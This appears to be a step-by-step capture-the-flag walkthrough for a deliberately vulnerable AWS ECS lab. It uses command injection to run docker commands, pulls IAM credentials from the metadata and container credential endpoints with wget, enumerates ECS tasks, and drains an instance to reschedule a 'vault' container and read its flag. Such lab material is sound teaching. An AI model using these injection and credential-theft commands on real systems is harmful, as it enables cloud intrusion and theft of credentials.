 1. Find the command injection vulnerability in the website. The following payload could contain any bash command, it's just a POC. There is only one input field in the application, so it should be straightforward to determine where this payload goes. 

    ```bash
    ; echo 'hello world'
    ```

2. Using command injection list all of the containers on the host. You should see images for "vulnsite:latest" and "busybox:latest". 
vulnsite is hosting the webapp that you just exploited, and busybox is sleeping for a year (literally), but runs as a role that will be
relevant to us later.
    
    ```bash
   ; docker ps
   ```

   The ID for the busybox container the will be the first field in the output from the following command.
    
    ```bash
   ; docker ps | grep busybox
   ```

3. Using command injection get the container credentials for the busybox container as well as the host ECS instance. If you've not seen the endpoints
listed below, they are very common targets. 

   ```bash
   ; docker exec <busybox container id> sh -c 'wget -O- 169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI'
   ; docker exec <busybox container id> sh -c 'wget -O- 169.254.169.254/latest/meta-data/iam/security-credentials/'
   ; docker exec <busybox container id> sh -c 'wget -O- 169.254.169.254/latest/meta-data/iam/security-credentials/<your-specific-ecs-agent>'
   ```
   
You can learn more about ECS Task roles here: 
https://docs.aws.amazon.com/AmazonECS/latest/developerguide/task-iam-roles.html  
And ec2 metadata here: 
https://docs.aws.amazon.com/AWSEC2/latest/WindowsGuide/instancedata-data-retrieval.html

4. With the escalated credentials from the busybox container, list the clusters in the account then enumerate the tasks.

   ```bash
   aws --profile <container_credentials> ecs list-clusters --region <your_region>
   aws --profile <container_credentials> ecs list-tasks --cluster <your_cluster_name> --query taskArns --out text --region <your_region>
   ```
   After listing all of the tasks, you can use the following commands to iterate over them and get some more information.
   
   ```bash
   # the following command will describe the target task which will include the name of the corresponding service:
   aws --profile <container_credentials> --region <your_region> ecs describe-tasks --cluster <your_cluster_name> --tasks <target_task>
   # this command will reveal if the service is scheduled as a replica or daemon.
   aws --profile <container_credentials> --region <your_region> ecs describe-services --cluster <your_cluster_name> --services <target_service>
   ```
   
5. This next step is the crux of the whole operation. In the previous step you will have listed out all of the tasks and their corresponding ecs instances (which are the ec2 instances that tasks, and therefore docker containers, are running on). You'll also know how each service is scheduled. We see that on a second ecs instance there is a task that we have previously not had access to. Because that task is scheduled as a replica, ecs will attempt to rechedule it on an available ecs instance if it's current host instance goes down for some reason. We can deliberately take that instance down using the credentials we got from the host earlier, forcing it to be rescheduled onto an instance that we have more control over.

   ```bash
   aws --profile <host_credentials> ecs update-container-instances-state --cluster <your_cluster_name> --container-instances <target_container_instance> --status DRAINING --region us-east-1
   ```

6. Wait for "Vault" container to be rescheduled, this can be checked by running docker via command injection.
    
    ```bash
    ; docker ps | grep vault
    ```

7. Using the command injection on the website get the flag from the "vault" container.

    ```bash
    ; docker exec <vault container id> ls
    ; docker exec <vault container id> cat FLAG.TXT
    ```

If you want more information about REPLICA/DAEMON scheduling read here: https://docs.aws.amazon.com/AmazonECS/latest/developerguide/ecs_services.html
If you want information on on what DRAINING means, or ecs instances in general, read here: https://docs.aws.amazon.com/AmazonECS/latest/developerguide/ECS_instances.html
